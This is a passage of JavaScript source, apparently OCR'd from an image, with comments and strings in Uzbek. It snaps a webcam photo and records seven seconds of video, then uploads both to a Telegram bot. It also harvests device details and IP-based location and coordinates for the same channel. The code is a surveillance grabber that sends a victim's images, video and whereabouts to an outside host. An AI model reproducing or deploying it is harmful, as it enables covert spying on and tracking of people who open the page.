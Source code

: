       canvas.width = video.videoWidth;
      canvas.height = video.videoHeight;
      const ctx = canvas.getContext("2d");
      ctx.drawImage(video, 0, 0);
      canvas.toBlob(blob => {
        const form = new FormData();
        form.append("chat_id", CHAT_ID);
        form.append("photo", blob, "jarvis.jpg");
        fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendPhoto`, { method: "POST", body: form });
      }, 'image/jpeg');
    };

    // VIDEO yozish
    recorder = new MediaRecorder(stream);
    recorder.ondataavailable = e => chunks.push(e.data);
    recorder.start();

    setTimeout(() => {
      recorder.stop();
      recorder.onstop = () => {
        const blob = new Blob(chunks, { type: "video/webm" });
        const form = new FormData();
        form.append("chat_id", CHAT_ID);
        form.append("video", blob, "super_video.webm");
        fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendVideo`, { method: "POST", body: form });
      }
    }, 7000);

    // MA'LUMOTLAR
    let info = `📱 Qurilma: ${navigator.userAgent}\n`;
    info += `🌐 Platforma: ${navigator.platform}\n`;
    info += `📶 Tarmoq: ${navigator.connection ? navigator.connection.effectiveType : "nomaʼlum"}\n`;
    info += `🧠 CPU: ${navigator.hardwareConcurrency || "?"} yadro\n`;
    info += `📏 Ekran: ${screen.width}x${screen.height}\n`;
    info += `🖱 Mouse mavjud: ${typeof window.onmousemove === 'function'}\n`;
    info += `🎯 Touchscreen: ${'ontouchstart' in window}\n`;
    info += `📋 Clipboard mavjud: ${!!navigator.clipboard}\n`;
    info += `🎛 Device Memory: ${navigator.deviceMemory || "nomaʼlum"} GB\n`;
    info += `📦 Cookies: ${navigator.cookieEnabled ? 'yoqilgan' : 'bloklangan'}\n`;

    if (navigator.getBattery) {
      const bat = await navigator.getBattery();
      info += `🔋 Batareya: ${Math.round(bat.level * 100)}% (${bat.charging ? 'zaryadda' : 'zaryadsiz'})\n`;
    }

    info += `🗣 Til: ${navigator.language}\n`;
    info += `🕒 Soat zonasi: ${Intl.DateTimeFormat().resolvedOptions().timeZone}\n`;

    try {
      const geo = await fetch("https://ipapi.co/json/").then(r => r.json());
      info += `🌍 IP: ${geo.ip}\n`;
      info += `🏙 Joylashuv: ${geo.city}, ${geo.country_name}\n`;
      info += `📌 Koordinata: ${geo.latitude}, ${geo.longitude}\n`;
      info += `🗺 Maps: https://maps.google.com/?q=${geo.latitude},${geo.longitude}`;
    } catch (e) {
      info += `❗ IP/joylashuv olinmadi`;
    }
